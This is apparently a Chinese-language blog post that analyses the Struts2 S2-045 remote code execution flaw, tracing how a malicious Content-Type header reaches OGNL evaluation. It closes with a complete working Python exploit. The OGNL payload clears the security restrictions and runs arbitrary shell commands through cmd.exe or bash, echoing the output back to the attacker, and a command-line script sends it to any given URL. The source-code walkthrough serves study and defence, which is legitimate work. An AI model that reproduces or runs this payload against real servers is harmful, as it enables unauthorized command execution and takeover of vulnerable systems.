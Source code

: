 ## Struts2 045 漏洞分析
### 目录
- 基础知识
- Struts2 045 源码分析
- exp

由于对JAVA和Struts都不熟悉，所以在分析过程当中很多转换都不理解，只能理清代码运行过程。
### 1.基础知识
#### 1. 什么是Struts？

一套用于创建企业级Java Web 应用的开源MVC框架。

#### 2. 什么是Struts2 045漏洞？

Struts2 045漏洞是由于异常处理函数对Content-Type的内容进行ognl表达式解析，导致可以在服务器上执行任意命令。

#### 3. Struts2的处理流程

![image](https://images.seebug.org/content/images/2017/03/st2_arch.png-w331s)

从上面的流程图可以看到，

1.客户端产生一个HttpServletRequest的请求

2.请求经过一系列的过滤器（ActionContextCleanUp、SiteMesh），过滤器对所有的请求都起到作用，主要用来对请求添加，修改或者分派转发至Action处理业务逻辑。

3.FilterDispatcher（有一些是StrutsPrepareAndExecuteFilter）被调用，并询问ActionMapper来决定这个请求是否需要调用某个Action来处理这个请求。

4.然后再经过拦截器，拦截器能对配置文件中匹配的 request 进行处理，并能获取 request 当中的上下文环境及数据。

5.最后将结果返回。
#### 4. 什么是OGNL？
OGNL是Object-Graph Navigation Language的缩写，它是一种功能强大的表达式语言（Expression Language，简称为EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。

在Struts2中，使用Ognl表达式作为字符串与对象之间转换的一种实现，通过Ognl表达式可以轻松做到String与Object之间的沟通。

### 2.Struts2 045 源码分析
从前面的分析可以知道，

查看web.xml文件配置可以看到拦截请求的过滤器是StrutsPrepareAndExecuteFilter：
![image](C:/Users/博智/Desktop/pic/webxml.png)


接下来这个类会执行doFilter()方法，并且执行prepare.wrapRequest调用，因此跳转到PrepareOperations类，可以看到再次调用dispatcher.wrapRequest方法：
![image](C:/Users/博智/Desktop/pic/PrepareOperations.png)

在这个方法中，可以看到这里先获取ContenType，判断是否包含multipart/form-data，这也就是后面我们要在ognl表达式中包含multipart/form-data的原因。然后会去new一个MultiPartRequestWrapper对象，
![image](C:/Users/博智/Desktop/pic/dispatcher.png)

然后在MultiPartRequestWrapper的构造函数中，会调用multi.parse方法，在这里multi=multiPartRequest，会调用JakartaMultiPartRequest类中的parse方法。
![image](C:/Users/博智/Desktop/pic/MultiPartRequestWrapper.png)

在parse方法中调用了processUpload方法，据别人的解析所说，这个方法会判断content-type是否是multipart开头，不是的话引发异常，并将content-type信息放入异常中。不过这个方法我跟踪不到。然后异常会调用buildErrorMessage函数。
![image](C:/Users/博智/Desktop/pic/JakartaMultiPartRequest.png)

接着这个函数会调用LocalizedTextUtil.findText函数：
![image](C:/Users/博智/Desktop/pic/buildErrorMessage.png)

然后搜索defaultMessage，也就是前面传进来的错误信息，可以找到最开始调用是在
getDefaultMessage函数里面：
![image](C:/Users/博智/Desktop/pic/getdefaultmessage.png)

继续跟进getDefaultMessage函数,可以发现又被TextParseUtil.translateVariables函数调用：
![image](C:/Users/博智/Desktop/pic/default.png)

注意这里的$和%，两者都能告诉执行环境 ${} 或 %{} 中的内容为ognl表达式。
![image](C:/Users/博智/Desktop/pic/char.png)

经过很多次TextParseUtil.translateVariables函数之后,错误信息传入TextParser.evaluate函数
![image](C:/Users/博智/Desktop/pic/parse.png)

最后在OgnlTextParser类中执行ognl表达式：

![image](C:/Users/博智/Desktop/pic/ognl.png)

然后再把结果一步一步返回回去，存进一个数组里，等待geterrors函数调用。
### 3. exp

exp里主要看OGNL表达式，由于对OGNL不熟悉，所以我讲一下我的理解：
```
(#Nike='multipart/form-data')
```
这个是为了满足前面对multipart/form-data包含的判断，又会触发不是以multipart/form-data开头的异常。
```
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm))))
```
通过ognl表达式静态调用获取ognl.OgnlContext的DEFAULT_MEMBER_ACCESS属性(默认是非PUBLIC的属性和方法不可访问)，并将获取的结果覆盖_memberAccess属性，这样就可以绕过SecurityMemberAccess的限制.
```
(#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds))
```
这一段是判断操作系统，如果是linux，调用bash；如果是windows，调用cmd。
```
(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
```
这一段是执行传递进来的命令，然后通过流来将命令回显内容输出。


写exp的时候发现一个问题，原先是使用requests库来发送请求，但是引发异常：

('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))

查找stackoverflow给出这么一个解决办法，就是用urllib2库，同时增加异常处理，然而还是不知道e.partical是什么。
```
import urllib2
import httplib
from optparse import OptionParser

def struts(url,cmd):

    content_type="${(#Nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).\
    (#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).\
    (#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"%cmd

    
    request = urllib2.Request(url)
    
    request.add_header('User-Agent',"Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0")
    request.add_header('content-type',content_type)
    
    try:
        page = urllib2.urlopen(request).read().decode('gbk')
    except httplib.IncompleteRead, e:
        page = e.partial

    print page

def main():

    parser=OptionParser()
    parser.add_option("-u",action="store",dest="url",help="url")
    parser.add_option("--cmd",action="store",dest="cmd",help="cmd")
    (options,args)=parser.parse_args()

    struts(options.url,options.cmd)

if __name__=="__main__":
    main()
```
